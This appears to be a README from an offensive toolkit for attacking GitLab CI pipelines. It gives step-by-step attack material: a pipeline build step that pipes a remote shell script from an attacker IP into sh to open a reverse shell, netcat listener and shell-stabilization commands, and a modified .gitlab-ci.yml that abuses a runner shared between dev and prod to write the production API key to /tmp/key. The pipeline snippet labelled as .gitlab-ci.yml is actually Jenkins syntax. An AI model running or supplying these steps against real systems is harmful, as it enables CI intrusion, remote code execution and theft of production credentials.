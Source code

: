 This tools helps in efficiently enumerating the publicly visible repos

Use the above script and Gitlab API for enumuration.

Donot change the file name "enumerator.py"

Note: Make sure to install the Gitlab pip package using pip3 install python-gitlab==3.15.0

=======================================
replace the below lines in the .gitlab-ci.yml file to get the reverse shell

pipeline {
    agent any
    stages {
       stage('build') {
          steps {
              sh '''
                    curl http://10.50.3.65:8000/shell.sh | sh
                '''                 
              }             
          }
       }       
    }


=======================================
simple reverse shell.sh

Update the attacker_Ip and port for to make connection
in the attacker machine type this 

nc -lvn PORT

After the reverse connection is established stabilize the shell using python 

Type the below command in the pawned machine

python3 -c 'import pty; pty.spawn("/bin/bash")'

after executing the above python shell do "ctrl + z" #terminate the shell and execute the below command in the attacker machine to connect back to the victim

stty raw -echo; fg

=======================================

Extracting the Production API key

If gitlab runners are same in the prod and dev server then we can able to extract the prod API key using the dev server.

Let say if the main is protected, then we cant do commeit and merge to the main branch, if we can able to do commits in dev branch, if the dev branch is also using the same running which prod is running
then we can use the dev branch .gitlab-ci.yml file to extract the prod api key.

Replace the .gitlab-ci.yml file in the dev as below, the below command might create the key in tmp/key directory of dev server, while commiting the changes look for the pipelines and jobs wether running or pending and manual. If its manual run the job manually, it might triger the script to run.
=======================================

  stages:
  - test
  - deploy

test:
  stage: test
  script:
    - 'echo "Testing Application: ${CI_PROJECT_NAME}"'

production:
  stage: deploy
  when: manual
  script:
    - 'echo "Deploying to ${CI_ENVIRONMENT_NAME}"'
    - 'echo "${API_KEY}" > /tmp/key'
    - 'echo "Ready to use the API KEY"'
  environment:
    name: ${CI_JOB_NAME}
=======================================
